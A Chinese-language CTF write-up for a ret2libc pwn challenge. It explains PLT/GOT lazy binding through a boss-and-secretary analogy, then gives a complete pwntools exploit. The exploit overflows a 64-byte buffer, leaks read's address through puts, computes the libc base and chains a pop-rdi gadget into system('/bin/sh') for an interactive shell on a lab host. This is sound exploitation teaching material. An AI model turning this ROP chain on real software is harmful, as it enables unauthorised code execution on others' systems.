





# Pwn-ret2libc

## 题意

给你一个`pwn.bin`和`libc.so.6`

## 题解

还是老操作，checksec检查然后IDA反编译，发现是64位amd架构程序，没有开canary，地址是写死的，通过反编译发现可以构造溢出，buf数组长度只有64，却能读112个字符



通过shift+F12，结果并没有发现`/bin/sh`字样或者`system`字样


这里需要弄清楚`libc.so.6`的运行逻辑
#### 1. 核心概念通俗解释

假设你是一个公司的老板（**主程序/exe**），你需要找一个外部的顶级专家（**libc函数，如 `system` 或 `printf`**）来帮你解决问题。

##### **libc.so（动态链接库）—— “外部专家库”**
*   **定义**：Linux 下的标准 C 语言库文件（Windows 下对应 `.dll`）。
*   **作用**：它里面包含了成千上万个常用功能函数，比如 `printf`（打印）、`scanf`（输入）、`system`（执行命令）、`open`、`read` 等。
*   **特点**：
    *   为了节省空间，程序本身不包含这些代码，而是运行时去“借用”。
    *   **重要机制 (ASLR)**：为了安全，操作系统每次运行程序时，都会把 `libc.so` 加载到内存的一个**随机位置**。所以，专家住在哪，每次都不一样。

##### **PLT 表 (Procedure Linkage Table) —— “秘书/中转站”**
*   **定义**：过程链接表。存在于**程序本身**的代码段中（只读，可执行）。
*   **作用**：它是程序调用外部函数的**入口**。
*   **类比**：它是你的**秘书**。当你要找专家 `printf` 时，你不会直接去找（因为你不知道专家今天住哪），而是先喊秘书：“帮我联系 `printf`”。
*   **特点**：在程序编译时，PLT 表的位置是固定的。

##### **GOT 表 (Global Offset Table) —— “通讯录/便签本”**
*   **定义**：全局偏移表。存在于**程序本身**的数据段中（可读写）。
*   **作用**：专门用来记录外部函数在内存中的**真实地址**。
*   **类比**：这是秘书手里的**通讯录**。
*   **特点**：
    *   程序刚启动时，通讯录是空的（或者填的是秘书自己的电话）。
    *   当第一次联系上专家后，秘书会把专家的**真实地址**写在这个本子上。


#### 2. 它们是如何配合工作的？（延迟绑定 Lazy Binding）

Linux 为了效率，采用了一种叫“延迟绑定”的策略：**不到万不得已，不解析函数的真实地址。**

#### **情景 A：程序第一次调用 `printf`**

1.  **老板（Main）**：呼叫 `printf@plt`（找秘书）。
2.  **秘书（PLT）**：看了一眼手中的 **通讯录（GOT）**。
3.  **通讯录（GOT）**：因为是第一次，上面写的不是专家的地址，而是“回头找秘书”的指令。
4.  **秘书（PLT）**：发现没地址，于是启动“查找服务”（`_dl_runtime_resolve`）。
5.  **查找服务**：去内存里巨大的 **专家库（libc.so）** 中搜寻，终于找到了 `printf` 这一刻的真实内存地址（比如 `0x7ffff7a0d010`）。
6.  **关键步骤**：把这个真实地址填入 **通讯录（GOT）** 中对应的格子。
7.  **执行**：跳转到真实地址执行 `printf` 功能。

##### **情景 B：程序第二次调用 `printf`**

1.  **老板（Main）**：呼叫 `printf@plt`（找秘书）。
2.  **秘书（PLT）**：看了一眼 **通讯录（GOT）**。
3.  **通讯录（GOT）**：上面已经写好了地址 `0x7ffff7a0d010`。
4.  **执行**：直接跳过去找专家，不再需要查找过程。  

明白原理以后，我们需要利用栈溢出，借助plt表调用puts函数，将read的got表内容打印出来，这样我们就得到了read函数的真实地址。用read函数的真实地址减去read函数在libc中的符号地址，就可以得到libc的装载地址了。用libc装载地址+符号地址的方式，获取libc中`system`函数的真实地址和某一个`/bin/sh`字符串的真实地址。将返回地址设置为main函数的起始地址，程序就会从头再来一遍结合64位栈溢出的特点，我们还需要找到一个gadget来写rdi，构造给函数传参的ROP链。



```python
from pwn import *

elf = ELF('./pwn.bin')
libc = ELF('./libc.so.6')
p = remote('172.17.0.13',10158)

gadget = 0x40117E
main = 0x4011AD
fgot = elf.got['read']
fplt = elf.plt['puts']

p.recvuntil('Go!!!')
payload = b'a' * 64 + p64(0) + p64(gadget) + p64(fgot) + p64(fplt) + p64(main)
p.send(payload)

p.recvlines(1)
faddr = u64(p.recv(6).ljust(8, b'\x00'))
print(hex(faddr))
base = faddr - libc.sym['read']
binsh = base + next(libc.search(b'/bin/sh'))
sys = base + libc.sym['system']

p.recvuntil('Go!!!')
payload = b'a' * 64 + p64(0) + p64(gadget) + p64(binsh) + p64(sys)
p.send(payload)

p.interactive()
```

## 参考材料
[参考](https://blog.csdn.net/qq_52161487/article/details/144638551)
